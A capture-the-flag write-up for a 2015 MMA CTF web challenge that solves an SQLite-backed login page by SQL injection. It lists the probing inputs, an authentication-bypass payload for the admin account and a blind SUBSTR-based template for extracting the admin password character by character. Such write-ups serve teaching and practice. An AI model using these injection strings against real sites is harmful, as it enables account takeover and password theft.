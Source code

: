 
## MMA 1st CTF 2015 - Login as admin (Web 30)
##### 05/09 - 07/09/2015 (48hr)
___
### Description: 
Login as admin. And get the flag! The flag is the password of admin.

http://arrive.chal.mmactf.link/login.cgi

You can use test:test. 
___
### Solution

Let's start with some SQL injection tests:

```
username=1'                  &password=1	---> near "1": syntax error
username=1' OR SLEEP(4) OR '1&password=1 	---> no such function: sleep
```
Hmmm. It's SQLi, but not MySQL. Is it sqlite? Lets try:
```
username=1' OR  sqlite_version() OR '1&password=1 	---> You are test user. 
```
Oh yeah! Let's construct our blind string:
```
username=1' or 0 or '1        &password=1 	---> invalid username or password
username=1' or 1 or '1        &password=1  	---> you are the test use
username=1' or  username or '1&password=1 	---> no such column: username
username=1' or  user or '1    &password=1	---> invalid username or password
username=1' or  password or '1&password=1 	---> invalid username or password
username=1' or  (SELECT 1 FROM user) or '1&password=1	--->   You are test user.
```
Table is user with columns user and password.

So: username=1' or  user='admin' or '1&password=1
Gives:
	Congratulations!!
	You are admin user.
	The flag is your password!

Our blind SQLi string is:
```
	username=0' or SUBSTR((SELECT password FROM user WHERE user='admin'),{i},1)={C} or '0
	password=foo
```
Where, {i} is the current location and {C} the current character. After a while we get the flag:
	
	**MMA{cats_alice_band}**
___